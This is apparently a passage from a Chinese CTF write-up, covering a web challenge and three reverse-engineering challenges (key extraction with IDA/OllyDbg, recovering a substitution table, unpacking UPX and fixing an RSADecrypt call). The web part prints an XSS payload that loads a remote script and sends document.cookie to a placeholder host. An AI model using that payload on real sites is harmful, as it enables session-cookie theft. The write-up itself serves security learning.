 ```
<<script src=//xxx/1.js></script>

```

￼￼￼￼￼￼￼￼ ￼在linux服务器上创建1.JS文件,内容为

```
p://xxx/xss.php?x='+document.cookie;

```

提交得到flag。

Part 3 Reverse
--------------

* * *

### 100pt

题目提示说会把信息加密存储到"secret.db"文件中,并且我们的目标是加密的key。那么很自然地,把ch1.exe拖进IDA之后,根据写内容到"secret.db"文 件来定位代码片段。IDA搜索text "secret.db"定位到函数sub_423400,看到了fopen,基本八九不离十了。

于是退到外面,看调用sub_423400之前,发觉调用了函数sub_4230f0,然后一进去,发现一连串非常可疑的赋值(从v19开始的),本着试一试的态 度,在0042325D下了一个断点(因为到这里一连串赋值结束了),然后用Ollydbg跑一下,从内存里直接把这连续的一段可见字符弄出来就好了,即是 flag。(根据一些常量字符串以及对数据的操作,加密方式应该是AES)。

### 200pt

根据题目的描述,是程序对输入的一段内容做了加密之后放到了flag.crypt文件。先要找到输入的途径,通过strings以及对程序稍稍调试,可以发现存放明 文的输入文件为flag.txt。

我们随便给flag.txt输入连续的123412341234,发觉出来的flag.crypt文件的hex内容为:

```
A1 A2 A0 A3 9F A4 9E A5 A1 A2 A0 A3 9F A4 9E A5 A1 A2 A0 A3 9F A4 9E A5

```

正好有循环段,猜测加密过程是1-1对应的替换,1个bytes变到2个bytes。接下来做一个简单的程序,把可见字符全部放到一个文件中,然后运行 ch2.exe。这样可以得到可见字符1-1对应的码表。接下来根据题目提供的flag.crypt文件的hex内容倒查这张表,即可获得明文(flag)。

### 300pt

程序下载下来先运行,发现点Find The Key之后就会崩溃。用IDA看,发现是加了UPX的壳,用UPX原版工具就可以直接脱壳。但是脱壳后程序就没法直接运行了,丢进IDA看到1400018C0这个函数会先加载一个DecryptDll.dll,然后执行其中的RSADecrypt函数,但是程序同目录下并没有这个dll所以直接运行会报错。

但是程序脱壳之前运行的话至少还会弹出来一个界面,脱了壳之后连界面都没了,这里面肯定还是有些问题。于是去看了下脱壳后的程序的资源区,发现里面就有一个dll,提取出来后重命名为DecryptDll.dll,再次运行程序,依然报错。

用windbg调试,发现程序还是在调用RSADecrypt的时候出了错,仔细检查这个函数调用,发现有四个参数,第一个是密文,第二个是密文长度,第三个是0,第四个是64,而程序崩溃是由于一个空指针引用,所以猜测第三个参数可能是解密后输出明文的buffer,第四个是明文buffer的长度。于是把第三个参数从0改成一个可写地址,再次执行这个函数,然后查看那个可写地址就会发现flag

Part 4 Web-B
------------

* * *

### 100pt
